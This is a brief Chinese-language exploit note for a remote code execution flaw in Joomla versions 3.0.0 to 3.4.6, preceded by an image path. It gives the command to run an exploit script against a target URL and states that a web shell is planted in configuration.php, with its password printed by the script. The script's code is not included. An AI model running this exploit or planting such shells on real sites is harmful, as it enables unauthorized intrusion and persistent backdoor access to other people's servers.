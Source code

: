 ## 影响范围

```http
3.0.0-3.4.6
```

## exp

```
python3 Joomla-3.4.6-RCE.py -t http://xxxx
```
shell：http://xxxx/configuration.php    密码脚本已输出